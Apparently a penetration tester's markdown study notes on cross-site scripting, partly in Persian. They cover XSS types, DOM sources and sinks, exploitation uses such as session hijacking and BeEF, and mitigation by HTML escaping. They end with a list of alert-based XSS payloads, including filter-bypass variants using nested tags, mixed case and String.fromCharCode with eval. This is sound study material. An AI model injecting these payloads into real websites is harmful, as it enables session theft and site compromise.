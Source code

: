 # XSS

##
- بعد از تزریق کد اسکریپ، باید به page source code رفته تا اثر تزریق را در صفحه ببینیم، تا رفتار سرور و متعاقبا نحوه bypass آن را متوجه شویم

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source
      - ```?name=alireza => document.url()```
    - sink 
      -  ```getElementById()```
      - ```document.write()```

## Exploitation
- Session Hijacking (SEC542-4)
- Fake Page (SEC542-4)
- [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 

## Payloads
```Javascript
a'"><script>alert(888)</script>
a"><script>alert(888)</script>
</title><script>alert(888)</script>
'; alert(888)'//
%27;+alert(888);//
a<script>alert(888)</script>
a<SCript>alert(888)</SCript>
a<scri<script>pt>alert(888)</scri</script>pt>
a<img src='aaa' onerror='alert(888)'/>
a<script>prompt(888)</script>
a<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 56, 56, 56, 41))</script>
a";alert(888);//
a";alert(888);"
a';alert(888);//
a';alert(888);'
/"><script>alert(888)</script>
```
  
